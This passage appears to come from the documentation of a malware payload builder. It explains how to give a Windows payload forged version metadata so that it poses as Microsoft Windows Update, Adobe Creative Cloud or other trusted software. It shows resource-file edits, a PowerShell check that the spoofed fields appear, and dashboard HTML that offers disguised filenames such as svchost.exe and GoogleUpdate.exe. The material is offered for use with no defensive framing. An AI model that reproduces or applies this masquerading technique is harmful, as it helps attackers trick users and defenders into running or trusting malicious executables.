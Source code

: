 ### Adobe
```
Company: Adobe Inc.
Description: Adobe Updater Service
Product: Adobe Creative Cloud
```

### Custom
Edit `/workspace/native_payloads/windows/resource.rc`:
```rc
VALUE "CompanyName", "Your Company\0"
VALUE "FileDescription", "Your Description\0"
VALUE "ProductName", "Your Product\0"
```

---

## 🔍 Verify Your Build

### Check Metadata (Windows):
```powershell
Get-Item .\WindowsUpdate.exe | Select-Object VersionInfo | Format-List
```

**Should show:**
```
CompanyName      : Microsoft Corporation
FileDescription  : Windows System Update Service
FileVersion      : 10.0.19041.1
ProductName      : Microsoft® Windows® Operating System
LegalCopyright   : © Microsoft Corporation. All rights reserved.
```

### Check File (Linux):
```bash
file output/WindowsUpdate.exe
sha256sum output/WindowsUpdate.exe
```

---

## 📱 From Web Dashboard

### Add to Dashboard UI

Edit `/workspace/templates/dashboard.html` - Payloads section:

```html
<h3>Payload Options</h3>

<label>
    <input type="checkbox" id="trustedMode" />
    Build trusted-looking payload (Windows only)
</label>

<div id="trustedOptions" style="display:none;">
    <label>Filename:</label>
    <select id="trustedFilename">
        <option value="WindowsUpdate.exe">WindowsUpdate.exe</option>
        <option value="svchost.exe">svchost.exe</option>
        <option value="GoogleUpdate.exe">GoogleUpdate.exe</option>
        <option value="OneDrive.exe">OneDrive.exe</option>
    </select>
    
    <label>Metadata Style:</label>
```